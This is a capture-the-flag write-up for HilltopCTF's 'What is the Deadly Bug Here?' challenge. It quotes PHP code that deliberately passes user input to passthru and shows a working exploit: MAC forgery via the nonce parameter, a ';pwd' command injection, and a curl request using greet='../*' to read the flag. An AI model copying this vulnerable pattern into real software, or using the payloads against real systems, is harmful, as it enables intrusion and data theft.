 ```yaml
---
layout: post
title: "What is the Deadly Bug Here?"
date: 2020-05-01
categories: CTF
permalink: /HilltopCTF
---
```

## HilltopCTF - What Is The Deadly Bug Here?

CTF Description: Some times ago I stumbled upon a guy who is famous in YouTube, and I subscribed him! I think he is very passionate and thoughtful about security things, and one day, he uploaded a video with title: "Let's play a game: what is the deadly bug here?." I was very amazed back then. But, that video made me think: I can't just stop with knowing the bug, I need to do better! I have to patch the code. And here I am, I patched the code and it is bug-proof.

When we initially visit the website, we are greeted with `You need to provide 'mac' and 'greet', okay?` While viewing the headers, we are provided some handy notes left to us by the author of the code. By passing `?debug` along, we can view their "patched" source code.

```
Headers:

HTTP/1.1 200 OK
Date: Sat, 30 May 2020 12:53:33 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.4.6
X-MY-GREET: aboutme.txt
X-MY-GREET-MAC: cabb57d8fb9ab6dbccbef600f370108ad331617dc5432fb55d0b4f2b7f5df01c
X-SELF-NOTE: '?debug' in case I forgot.
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Length: 1084
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

Source code visible by ?debug

?php
error_reporting(0);
ini_set('display_errors', 0);

require_once("secret.php");

function patched($alg, $string, $secret) 
{
    if (is_string($string)) {
        if ($alg === "sha256") {
            return hash($alg, $secret . $string);
        }
        else {
            header('HTTP/1.0 400 Bad Request');
            echo "That algorithm is not supported at the moment.";
            exit;
        }
    }
    else {
        header('HTTP/1.0 400 Bad Request');
        echo "Wouldn't work anymore hahahaha!";
        exit;
    }

}

$alg = "sha256";
$greet = "aboutme.txt";
header("X-MY-GREET: $greet");
header("X-MY-GREET-MAC: " . patched($alg, $greet, $secret));
header("X-SELF-NOTE: '?debug' in case I forgot.");

if (isset($_GET['debug'])) {
    highlight_file( __FILE__ );
}

if (empty($_GET['mac']) || empty($_GET['greet'])) {
    header('HTTP/1.0 400 Bad Request');
    echo "You need to provide 'mac' and 'greet', okay?";
    exit;
}

if (isset($_GET['alg'])) $alg = $_GET['alg'];

if (isset($_GET['greet'])) $greet = $_GET['greet'];

if (isset($_GET['nonce'])) $secret = patched($alg, $_GET['nonce'], $secret);

$mac = patched($alg, $greet, $secret);

// I still need to make sure the string is safe. Should this do?
$greet = filter_var($greet, FILTER_UNSAFE_RAW, FILTER_FLAG_STRIP_LOW|FILTER_FLAG_STRIP_HIGH);

if ($mac !== $_GET['mac']) {
    header('HTTP/1.0 403 Forbidden');
    echo "Nah it doesn't match.";
    exit;
}

// This is for testing, gonna make it dangerous since this won't be executed at all :).
echo passthru("cat $greet 2>&1", $err);
// echo $err;

?> You need to provide 'mac' and 'greet', okay?
```

We need to pass a mac and greet variable to the host. The headers show a `mygreet` and `mymac`, which when passed will allow the code `echo passthru("cat $greet 2>&1", $err);` to display the greet, which is aboutme.txt. We need to find a way to pass a greet through to find the flag. To do so we need a corresponding mac for the greet.

```
Aboutme.txt:

The code is patched by me. The 1337abcdefghijklmnopqrstuvwxyz1337 Hacker.
```

I spent several hours staring at the source code, but I'm not much of a programmer and I didn't see anything obviously wrong. A quick youtube search turned up the video by liveoverflow referenced in the challenge description. The video referenced an attack where he was able to set the variable nonce to an array, causing the hash_hmac function to return a NULL, allowing him to bypass knowing the secret. The patched code in this challenge utilizes an `is_string` check to keep you from passing an array through, and makes sure you don't try to change the algorithm from `sha256` via `===`. The challenge also utilizes the hash function instead of hash_hmac, making it less secure, possibly to hash length extension attacks. Since we know greet is aboutme.txt and the corresponding hash, it seems like it could work.

I spent a whole night trying to utilize a hash length extension attack to pass through a command to list directory contents to find the flag. After hours of failure, I went to bed determined to find the solution. The next morning I awoke to a hint on discord that says look at what you know and how it's calculated. I immediately realized that the function that is formulating the hash to display in the headers is the same function that calculates secret if we set the variable nonce.

```
header("X-MY-GREET-MAC: " . patched($alg, $greet, $secret));
if (isset($_GET['nonce'])) $secret = patched($alg, $_GET['nonce'], $secret);
```

By setting the variable nonce to aboutme.txt, the secret variable will now be set to the same mac that is passed to us through the header! Now that we control what the secret is, we can use an interactive php shell to generate the mac for the payload we want to send. I proceeded to send `;pwd` as a payload to find our current working directory, which is `/var/www/html`. A hint provided on the ctf website says what we want is in the `/var/www` directory. The code we are exploiting `echo passthru("cat $greet 2>&1", $err);` is running the cat command against whatever we pass as greet. We can cat out all files in a directory by utilizing `*`, so I crafted a mac for `../*` and got the flag!

```
root@kali:~# php -a
Interactive mode enabled

php > echo hash("sha256", "cabb57d8fb9ab6dbccbef600f370108ad331617dc5432fb55d0b4f2b7f5df01c" . "../*");
cfe3ac764981e94d4a7ebe6123d33eee2b30c19fff05c93e5377fb07f33be9d3

root@kali:~# curl -i 192.81.210.234:10002/?mac=cfe3ac764981e94d4a7ebe6123d33eee2b30c19fff05c93e5377fb07f33be9d3\&greet='../*'\&nonce=aboutme.txt
HTTP/1.1 200 OK
Date: Fri, 29 May 2020 13:29:30 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.4.6
X-MY-GREET: aboutme.txt
X-MY-GREET-MAC: cabb57d8fb9ab6dbccbef600f370108ad331617dc5432fb55d0b4f2b7f5df01c
X-SELF-NOTE: '?debug' in case I forgot.
Vary: Accept-Encoding
Content-Length: 125
Content-Type: text/html; charset=UTF-8

HilltopCTF{uh...1think_1mad3_itwors3_s00wy}
That's the flag, please use them wisely.
Thankyou.cat: ../html: Is a directory
```

I spent so much time looking for an error in the code that I overlooked the human error of being supplied a greet and corresponding match. Once I realized that the answer had been staring me in the face the whole time I was able to solve the challenge in a matter of minutes.
